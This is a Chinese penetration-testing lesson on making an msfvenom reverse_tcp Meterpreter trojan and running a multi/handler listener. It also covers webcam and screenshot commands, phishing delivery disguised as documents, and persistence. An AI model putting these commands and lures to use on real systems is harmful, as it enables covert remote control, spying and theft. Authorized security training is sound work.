









# 网络安全入门：P89：MSF后门木马植入与远控监听 🎯



在本节课中，我们将学习在成功获取目标系统权限后，如何利用Metasploit Framework（MSF）生成后门木马并进行远程控制监听。这是渗透测试中权限维持和后续控制的关键步骤。

## 认识Meterpreter的强大功能



上一节我们介绍了如何利用漏洞获取目标权限。本节中，我们来看看在获得Meterpreter会话后能执行哪些操作。Meterpreter是MSF中的一个强大后门工具。

在Meterpreter会话中输入 `help` 命令，可以查看所有可用指令及其描述。

以下是部分核心功能指令：
*   **screenshot**：对目标系统进行截图。
*   **webcam_snap**：打开目标摄像头拍照。
*   **webcam_stream**：开启目标摄像头录制视频。
*   **getsystem**：尝试进行权限提升（提权）。
*   **download**：从目标系统下载文件。
*   **upload**：向目标系统上传文件。
*   **shell**：获取目标系统的命令行shell。
*   **shutdown/reboot**：关闭或重启目标系统。

这些看似复杂的操作，在Meterpreter中通常只需一行命令即可完成。

## 生成远程控制后门木马

在真实的攻击场景中，目标可能并不存在我们已知的漏洞（如永恒之蓝）。此时，最常用的手法是生成一个远程控制的后门木马。

首先，需要理解木马（病毒）的两种类型：
*   **破坏型**：旨在破坏系统，如导致电脑死机的病毒。
*   **控制型**：旨在控制目标系统，与之共存。例如远程控制木马、勒索病毒（通过控制文件进行勒索）等。

我们使用 **`msfvenom`** 工具来生成后门木马。这是一个标准的生成命令：



```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=9999 -f exe -o demo.exe
```

以下是该命令的参数解析：
*   **`-p` (Payload)**： 指定载荷。其结构为：`[操作系统]/[架构]/[功能]/[连接方式]`
    *   例如：`windows/x64/meterpreter/reverse_tcp` 表示生成一个针对Windows 64位系统、功能为Meterpreter、使用TCP反向连接的载荷。
*   **`LHOST`**： 监听主机的IP地址（即攻击者Kali机器的IP）。
*   **`LPORT`**： 监听端口（0-65535之间）。
*   **`-f` (Format)**： 指定输出文件格式。
    *   `exe`： Windows可执行程序。
    *   `elf`： Linux可执行程序。
    *   `apk`： Android应用程序。
*   **`-o` (Output)**： 指定输出文件名。





执行上述命令后，会在当前目录生成一个名为 `demo.exe` 的木马文件。

## 后门木马的传播方式

生成木马后，需要通过某种方式让目标用户执行。主要有两种方法：
1.  **利用漏洞二次上传**： 例如，先通过网站的文件上传漏洞上传一个简单的Web Shell，获取初步权限后，再将功能更强大的MSF后门上传到目标系统。
2.  **伪装免杀与钓鱼**： 对木马进行免杀处理，将其绑定或伪装成正常文件（如PDF、图片），通过邮件、社交工程等方式诱骗目标用户点击执行。



> **注意**：生成的原始木马极易被杀毒软件查杀。免杀技术是后续需要深入学习的内容。

## 配置监听与等待连接

木马（鱼饵）已准备好，接下来需要在攻击机上“布置鱼钩”——开启监听，等待目标上线。

首先，在MSF控制台中使用 `multi/handler` 模块。这是MSF中用于接收反向连接的监听模块。

以下是配置监听器的步骤：
1.  启动MSF控制台：`msfconsole`
2.  使用监听模块：`use exploit/multi/handler`
3.  设置Payload，必须与生成木马时使用的Payload**完全一致**：
    ```bash
    set PAYLOAD windows/x64/meterpreter/reverse_tcp
    ```
4.  设置监听主机IP（LHOST）：
    ```bash
    set LHOST 192.168.1.100
    ```
5.  设置监听端口（LPORT）：
    ```bash
    set LPORT 9999
    ```
6.  执行监听：
    ```bash
    run
    ```

此时，监听器已启动。一旦目标用户运行了 `demo.exe` 木马文件，就会自动连接到 `192.168.1.100:9999`，并在MSF控制台中建立一个Meterpreter会话。

通过此会话，攻击者可以执行之前提到的所有操作（如截图、控制摄像头、上传下载文件等）。这个过程**不依赖于**目标系统是否存在其他漏洞，只要木马被执行即可。

## 权限维持与总结



本节课中我们一起学习了使用MSF生成后门木马并进行远程控制监听的完整流程。

最后需要思考一个问题：如果目标用户删除了木马文件，连接是否会中断？**答案是会**。因此，在真实的渗透测试或红队行动中，获得初始访问权限后，还需要进行 **“权限维持”** ，例如将后门注册为系统服务、创建计划任务、写入启动项等，确保在系统重启或文件被删除后，仍能重新获得控制权。这是一个持续的攻防对抗过程。

**核心要点总结**：
1.  使用 `msfvenom` 生成木马，需精确指定Payload、LHOST、LPORT、输出格式和文件名。
2.  通过漏洞利用或社会工程学传播木马。
3.  在MSF中使用 `multi/handler` 模块开启监听，其配置必须与生成木马时的参数**严格一致**。
4.  成功建立Meterpreter会话后，即可对目标进行多种后渗透操作。
5.  权限维持是确保长期控制的关键，否则连接可能因木马被清除而中断。





> **重要提示**：请务必在合法授权的环境中练习这些技术，未经授权的攻击行为是违法的。